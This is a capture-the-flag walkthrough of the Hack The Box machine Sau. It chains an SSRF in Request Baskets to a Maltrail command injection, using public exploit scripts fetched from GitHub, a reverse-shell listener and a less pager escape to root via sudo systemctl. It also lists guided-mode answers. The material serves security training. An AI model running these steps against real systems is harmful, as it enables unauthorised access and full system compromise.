 # 🚀 Hack The Box: Sau (Linux, Easy)

**by [a1i3n37x](https://github.com/a1i3n37x) · [Alien37.com](https://www.alien37.com)**

---

## ✨ Intro — Sau

Sau is all about digging deeper. Nothing on this box is outright broken — you’re just not meant to see it at first.

You’ll learn how to access internal services through a vulnerable proxy, exploit unauthenticated command injection via headers, and finally escalate to root using a sneaky `systemctl` misconfiguration.

This box teaches you to connect the dots between services, and to treat every limited response as a potential opening. SSRF, CVE chaining, and pager escapes — all packed into one smooth ride.

---

## 📡 Reconnaissance — Sau

Initial scan:
```bash
nmap -sC -sV -Pn 10.10.11.224 -oN sau-nmap.txt
```

Results:
```bash
22/tcp     open  ssh
80/tcp     filtered http
55555/tcp  open  http    request-baskets 1.2.1
```

Port 80 is filtered — no direct access.
Port 55555 is hosting **Request Baskets**, version `1.2.1`.

### 🧠 Observations:
- Port 80 is likely open *internally*, but not from the outside
- Request Baskets may be able to access it → time to test for SSRF

---

## 🔍 Scanning & Enumeration — Sau

Navigated to:
```bash
http://10.10.11.224:55555
```

Confirmed the app was **Request Baskets v1.2.1**. Based on CVE research:

> 🛠️ `CVE-2023-27163` — SSRF via basket forwarding functionality

Used a prebuilt exploit:
```bash
wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh
chmod +x CVE-2023-27163.sh
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

This let us proxy requests from the server itself → **bypassing the filter on port 80**.

We accessed:
```bash
http://10.10.11.224:55555/<basket>
```

Which returned a Maltrail web interface.

---

## 💣 Gaining Access — Sau

Maltrail v0.53 is known to be vulnerable to:
> 🧨 **Unauthenticated Command Injection** via `/login` endpoint

Instead of crafting a custom payload, we used a prebuilt Python exploit:

```bash
wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/main/exploit.py
python3 exploit.py <your-ip> 9000 http://10.10.11.224:55555/<basket>
```

Set up a listener:
```bash
nc -lvnp 9000
```

Received a shell as user `puma`.

---

## 🧬 Post-Exploitation — Puma

Checked access:
```bash
sudo -l
```

Output:
```
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

That command opens `less`. Escaped with:
```bash
!/bin/bash
```

Spawned a root shell. Confirmed with `whoami` → `root`

---

## 🪙 Flag Capture — Sau

- **User flag**: `/home/puma/user.txt`
- **Root flag**: `/root/root.txt`

---

## 🧭 Guided Mode Answers — Sau

<details>
<summary><strong>Target IP Address</strong></summary>
10.10.11.224
</details>

<details>
<summary><strong>Which is the highest open TCP port on the target machine?</strong></summary>
55555
</details>

<details>
<summary><strong>What is the name of the open source software that the application on 55555 is "powered by"?</strong></summary>
Request Baskets
</details>

<details>
<summary><strong>What is the version of request-baskets running on Sau?</strong></summary>
1.2.1
</details>

<details>
<summary><strong>What is the 2023 CVE ID for a Server-Side Request Forgery (SSRF) in this version of request-baskets?</strong></summary>
CVE-2023-27163
</details>

<details>
<summary><strong>What is the name of the software that the application running on port 80 is "powered by"?</strong></summary>
Maltrail
</details>

<details>
<summary><strong>What is the relative path on the webserver targeted by this exploit?</strong></summary>
/login
</details>

<details>
<summary><strong>What system user is the Mailtrail application running as on Sau?</strong></summary>
puma
</details>

<details>
<summary><strong>Submit the flag located in the puma user's home directory.</strong></summary>
<code>&lt;contents of /home/puma/user.txt&gt;</code>
</details>

<details>
<summary><strong>Submit flag difficulty rating</strong></summary>
Easy
</details>

<details>
<summary><strong>What is the full path to the binary (without arguments) the puma user can run as root on Sau?</strong></summary>
/usr/bin/systemctl
</details>

<details>
<summary><strong>What is the full version string for the instance of systemd installed on Sau?</strong></summary>
systemd 245 (245.4-4ubuntu3.13)
</details>

<details>
<summary><strong>What is the 2023 CVE ID for a local privilege escalation vulnerability in this version of systemd?</strong></summary>
CVE-2023-26604
</details>

<details>
<summary><strong>Submit the flag located in the root user's home directory.</strong></summary>
<code>&lt;contents of /root/root.txt&gt;</code>
</details>

---

## 🧠 Lessons Learned — Sau

- Filtered ports can still be reachable from the inside (SSRF target!)
- CVE chaining is powerful: SSRF → Maltrail → Command Injection
- Always run `sudo -l`, even if you think you can’t use sudo
- `less` and `systemctl` are common privilege escalation paths
- A clear exploit chain beats fancy obfuscation every time

---

## 🎓 CEH Summary — Sau

**CEH Domains Covered:**

- **Reconnaissance**: Nmap & service discovery
- **Vulnerability Research**: CVEs for Request Baskets + Maltrail
- **Exploitation**: SSRF + Python exploit for Maltrail injection
- **Privilege Escalation**: Pager escape via `systemctl` + `!/bin/bash`
- **Post-Exploitation**: Enumeration, flag capture, root access

> **“Sometimes, the only thing filtering your access… is your perspective.” 👽**

---

*Written by [a1i3n37x](https://github.com/a1i3n37x) · Hack The Box | [Alien37.com](https://alien37.com)*
